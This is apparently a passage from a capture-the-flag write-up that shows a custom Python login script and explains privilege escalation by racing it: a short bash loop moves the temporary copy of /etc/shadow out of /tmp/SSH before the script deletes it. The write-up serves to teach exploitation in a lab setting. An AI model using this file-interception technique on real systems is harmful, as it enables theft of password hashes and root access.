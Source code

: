 ``` python
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Here we can follow two methods to get root permissions:

1.  Intercept the file with `/etc/shadow` contents
2. Exploit the code vulnerability

To save time, I decided to follow the first path.

Since *the script temporarily saves* the contents of `/etc/shadow` *within a randomly named file* in `/tmp/SSH`, it is possible to intercept it and move it before the script removes it.

To do this, we have to create the following mini-script:

``` bash
#!/bin/bash

while :
do
    find "/tmp/SSH" -type f -exec mv {} /tmp/tmp \;
done
```

and run it, simultaneously execute **BetterSSH.py** with **sudo**.

![2020-02-27_21-20-57]({{page.screenshots}}/2020-02-27_21-20-57.png)

The program will return an error because it will not be able to delete the file that we have intercepted.
